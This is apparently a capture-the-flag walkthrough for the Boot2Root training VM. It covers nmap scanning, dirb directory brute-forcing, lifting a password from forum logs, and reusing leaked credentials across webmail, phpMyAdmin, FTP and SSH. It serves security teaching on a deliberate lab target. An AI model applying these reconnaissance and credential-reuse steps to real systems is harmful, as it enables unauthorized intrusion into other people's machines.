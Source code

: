 # Boot2Root
This project is an introduction to the penetration of a system.

--------------------------------------------------------------------------

Step by step guide

--------------------------------------------------------------------------

## We need to fine the IP address of our VM

```ifconfig```

And get something like that:
```vmnet8: flags=8863<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 1500
	ether 00:50:56:c0:00:08
	inet 192.168.152.1 netmask 0xffffff00 broadcast 192.168.152.255
```
(there may be more than 1 vm)

Then use nmap to scan this IP

```nmap 192.168.152.1-255```

And get

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-05 15:43 EET
Nmap scan report for 192.168.152.1
Host is up (0.00015s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 192.168.152.130
Host is up (0.00083s latency).
Not shown: 994 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

Nmap done: 255 IP addresses (2 hosts up) scanned in 28.91 seconds
```
Take the machine with the most open ports.
Our case is ```192.168.152.130```

## Looking for credentials

Install Dirb software
```
git clone https://github.com/v0re/dirb.git
cd dirb/
./configure
make
```
Scan our URL

```
./dirb https://192.168.152.130/ wordlists/common.txt

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sat Jan  5 15:53:37 2019
URL_BASE: https://192.168.152.130/
WORDLIST_FILES: wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: https://192.168.152.130/ ----
+ https://192.168.152.130/cgi-bin/ (CODE:403|SIZE:292)
==> DIRECTORY: https://192.168.152.130/forum/
==> DIRECTORY: https://192.168.152.130/phpmyadmin/
+ https://192.168.152.130/server-status (CODE:403|SIZE:297)
==> DIRECTORY: https://192.168.152.130/webmail/
```
phpmyadmin and webmail needs credentials.

## Forum

Research the forum and find 'Probleme login ?' topic, it's logs
Check who log in. Find this:
```
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
```
we suppose that someone put password to login field and then, after couple seconds successfully loged in

So, we try this cred to login the forum ```lmezard/!q\]Ej?*5K5cy*AJ```

Boom! We're here!

## Webmail

We can find email address on foroum for webmail. It's ```laurie@borntosec.net```.

Try this email and same password. It's works!

In there we find the letter with "DB Access" title. And get credentials ```root/Fg-'kKXBj87E:aJ$``` from letter.


## phpMyAdmin

Use this credentials to login phpmyadmin and it's works!

```lmezard:G!@M6f4Eatau{sF"```

## ftp

```brew install inetutils```
```ftp [YOUR IP]```
use lmezard:G!@M6f4Eatau{sF" credentials

```
get fun
get README
bye
```

get the README and fun file.
```
Complete this little challenge and use the result as password for user 'laurie' to login in ssh

```

login is ```laurie```

fun file it's a archive.

``` tar xf fun ```

It's a lot files with code, written in C.

Try to concatinate it with script.```node crackFunFile.js```

Compile the code.

Get the result:
```
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit%
```

Use sha256 online generator and get: ```330B845F32185747E4F8CA15D40CA59796035C89EA809FB5D30F4DA83ECF45A4```
## ssh

Try connect via ssh ```ssh root@IPaddress```. In out case is:
```
ssh laurie@172.16.69.129
```

We're in! Get the README file:
```
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```

